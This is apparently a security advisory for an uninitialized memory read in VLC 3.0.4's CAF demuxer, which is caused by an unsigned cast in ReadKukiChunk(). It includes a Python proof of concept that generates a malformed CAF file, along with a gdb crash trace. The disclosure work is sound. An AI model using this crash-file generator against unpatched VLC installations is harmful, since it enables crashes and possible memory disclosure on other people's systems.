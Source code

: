 ```yaml
---
date: 2018-12-03
---
```

# vlc: uninitialized memory read in caf demuxer

The CAF demuxer in VLC 3.0.4 and the master branch before commit
0cc5ea748ee5ff7705dde61ab15dff8f58be39d0 may read memory from an
uninitialized pointer when processing magic cookies in CAF files.

This is caused by a typecast that converts a possibly negative return
value to an `unsigned int` in the function `ReadKukiChunk()`:

`vlc/modules/demux/caf.c`

```c
689 static int ReadKukiChunk( demux_t *p_demux, uint64_t i_size )
690 {
...
692     const uint8_t *p_peek;
...
701     if( (unsigned int)vlc_stream_Peek( p_demux->s, &p_peek, (int)i_size ) < i_size )
702     {
703         msg_Err( p_demux, "Couldn't peek extra data" );
704         return VLC_EGENERIC;
705     }
```

With a sufficiently large `i_size`, an allocation may fail in
`vlc_stream_Peek()`.  This would result in a return value of
`VLC_ENOMEM`:

`vlc/src/input/stream.c`

```c
494 ssize_t vlc_stream_Peek(stream_t *s, const uint8_t **restrict bufp, size_t len)
495 {
...
507     if (peek == NULL)
508     {
509         peek = block_Alloc(len);
510         if (unlikely(peek == NULL))
511             return VLC_ENOMEM;
512
513         peek->i_buffer = 0;
514     }
```

`vlc/include/vlc_common.h`

```c
475 #define VLC_ENOMEM         (-2)
```

When casted to an `unsigned int`, the comparison of the return value in
`ReadKukiChunk()` won't notice the failure:

`vlc/modules/demux/caf.c`

```c
701     if( (unsigned int)vlc_stream_Peek( p_demux->s, &p_peek, (int)i_size ) < i_size )
```

The uninitialized `p_peek` is then used to read and copy data, depending
on the codec (see `ProcessALACCookie()`, `ProcessAACCookie()` and
`ReadKukiChunk()`).  This results in a crash and/or a potential infoleak.

Testcase:

```sh
$ ./mkcaf magic.caf
$ gdb --args vlc magic.caf
(gdb) r
...
Thread 9 "vlc" received signal SIGSEGV, Segmentation fault.
...
__memmove_avx_unaligned_erms () at ../sysdeps/x86_64/multiarch/memmove-vec-unaligned-erms.S:364
364     ../sysdeps/x86_64/multiarch/memmove-vec-unaligned-erms.S: No such file or directory.
(gdb) x/i $rip
=> 0x7ffff6a69f50 <__memmove_avx_unaligned_erms+368 at ../sysdeps/x86_64/multiarch/memmove-vec-unaligned-erms.S:364>:   vmovdqu ymm5,YMMWORD PTR [rsi+rdx*1-0x20]
...
(gdb) i r rsi rdx
rsi            0x7fffd4009a00   0x7fffd4009a00
rdx            0x41414141       0x41414141
```

`mkcaf`

```python
#!/usr/bin/python3

import sys
from struct import pack

caff = [
    # File header
    b"caff",                    # mFileType
    pack(">H", 1),              # mFileVersion
    pack(">H", 0),              # mFileFlags

    # Magic cookie chunk header
    b"kuki",                    # mChunkType
    pack(">Q", 0x41414141),     # mChunkSize
]


def main() -> int:
    if len(sys.argv) != 2:
        sys.exit("usage: {} <filename>".format(sys.argv[0]))

    with open(sys.argv[1], "wb") as f:
        f.write(b"".join(caff))
    return 0


if __name__ == "__main__":
    sys.exit(main())
```


## Solution

This issue has been fixed in the VLC master branch[1].


## References

1. <https://git.videolan.org/?p=vlc.git;a=commit;h=0cc5ea748ee5ff7705dde61ab15dff8f58be39d0>
